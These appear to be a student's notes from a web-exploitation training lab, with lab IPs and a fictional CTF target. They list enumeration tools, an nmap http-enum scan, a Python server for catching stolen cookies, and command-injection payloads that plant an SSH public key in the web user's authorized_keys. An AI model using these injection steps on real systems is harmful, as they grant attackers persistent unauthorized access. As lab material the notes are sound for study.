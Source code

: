 **Starting Demo [HTML](http://10.50.27.53/webexample/), [Java](http://10.50.27.53/java/), [Cross](http://10.50.27.53/cross/)**

### **Enumeration Tools**
- <\website/>/robots.txt (indexs websites to see how things are linked for you)
- Tools: NSE scripts, nikto, Burp suite

## ***SUPER IMPORTANT SCAN*** only use on scans you have permissions on
- `nmap -Pn <\ip/> --script http-enum`

## set up python server to get cookies
- `python3 -m http.server <\port (or default to 8000)>`


# cmd injection
## ssh keys
- find `etc/passwd`
- `;mkdir var/www/.ssh`
`ssh-keygen -t rsa`
- be sure to press enter for no passphrase 
- `cat /home/student/.ssh/id_rsa.pub`
    - ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDO5Rb2Ttlw+F08GfRCAvT7yfPRtMUS5UN/noD2/n7Jsp0UsA3+6rV37CqkHro/3UEMT/0TujlPgzMlQvD7wJQbhS+QxJbbiZsibWFHOmJ98w9miCmauMdeJWj8v8WnhAicVL3rCaBYZ8Qz/IDjPabWhBUkU41lCjAuVde79T3tSZ8lqt3PRBK2488nUu5QHVyn/0qRwZlHG1u33KhIB1oO7Tr71kfpijWBGchoDV+hooqPCZ1BsdAkdJu7Z4dNCrPVpjKnuWiwdCMGlNtaUbuEMAT5Ma9o4RzbFSDQB0fi0Tt+AR3fMcr9qyi9fQfaec1UzJfxsKMUPVGXxWMYMZjf student@linux-opstation-xns7
- `;echo "<\key" >> var/www/.ssh/authoried_keys`

- <HTML><BODY>
<FORM METHOD = >


***
***
## CTF INFO:
Scheme of Maneuver:
>internet_grey_host
-->T1:10.100.28.40

Target Section:

T1
Hostname: Donovian_MI_websvr
IP: 10.100.28.40
OS: unknown
Creds:unknown
Last Known SSH Port: unknown
PSP: Unknown
Malware: Unknown
Action: Conduct approved Web Exploitation techniques to collect intellegence.
